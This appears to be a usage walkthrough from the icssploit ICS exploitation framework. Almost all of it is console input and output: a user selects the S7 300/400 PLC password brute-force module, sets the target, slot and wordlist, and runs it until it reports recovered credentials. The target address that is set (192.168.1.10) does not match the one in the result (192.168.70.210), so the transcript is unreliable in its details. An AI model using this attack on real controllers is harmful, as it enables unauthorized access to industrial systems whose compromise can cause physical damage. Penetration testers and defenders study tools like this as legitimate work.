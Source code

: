 # S7 Bruteforece

# Use S7 bruteforece module
    root@kali:~/Desktop/temp/icssploit# python icssploit.py
    
      _____ _____  _____ _____ _____  _      ____ _____ _______
     |_   _/ ____|/ ____/ ____|  __ \| |    / __ \_   _|__   __|
       | || |    | (___| (___ | |__) | |   | |  | || |    | |
       | || |     \___ \\___ \|  ___/| |   | |  | || |    | |
      _| || |____ ____) |___) | |    | |___| |__| || |_   | |
     |_____\_____|_____/_____/|_|    |______\____/_____|  |_|
    
    
                    ICS Exploitation Framework
    
    Note     : ICSSPOLIT is fork from routersploit at
               https://github.com/reverse-shell/routersploit
    Dev Team : wenzhe zhu(dark-lbp)
    Version  : 1.0
    
    Exploits: 2 Scanners: 0 Creds: 14
    
    ICS Exploits:
        PLC: 2          ICS Switch: 0
        Software: 0
    
    icssploit > search bruteforce
    creds/ftp_bruteforce
    creds/http_basic_bruteforce
    creds/http_digest_bruteforce
    creds/http_form_bruteforce
    creds/s7_bruteforce
    creds/snmp_bruteforce
    creds/ssh_bruteforce
    creds/telnet_bruteforce
    icssploit > use creds/s7_bruteforce

    
# set options
    icssploit (S7 300/400 PLC Password Bruteforce) > show options

    Target options:
    
       Name       Current settings     Description
       ----       ----------------     -----------
       target                          Target address e.g. 192.168.1.1
       port       102                  Target Port
    
    
    Module options:
    
       Name                Current settings                                                                                Description
       ----                ----------------                                                                                -----------
       slot                2                                                                                               CPU slot number.
       threads             3                                                                                               Number of threads
       stop_on_success     yes                                                                                             Stop on first valid community string
       verbose             0                                                                                               Verbose scapy output. 1: display, 0: hide
       password            file:///root/Desktop/temp/icssploit/icssploit/wordlists/passwords.txt                                 password string or file with community strings (file://)
       rack                0                                                                                               CPU rack number.

    icssploit (S7 300/400 PLC Password Bruteforce) > set target 192.168.1.10
    [+] {'target': '192.168.1.10'}
    # set target slot
    icssploit (S7 300/400 PLC Password Bruteforce) > set slot 3
    [+] {'slot': '3'}

# run module
    icssploit (S7 300/400 PLC Password Bruteforce) > run
    [*] Running module...
    [*] Elapsed time:  11.8677530289 seconds
    [+] Credentials found!
    
       Target             Port     password
       ------             ----     --------
       192.168.70.210     102      password
    icssploit (S7 300/400 PLC Password Bruteforce) >
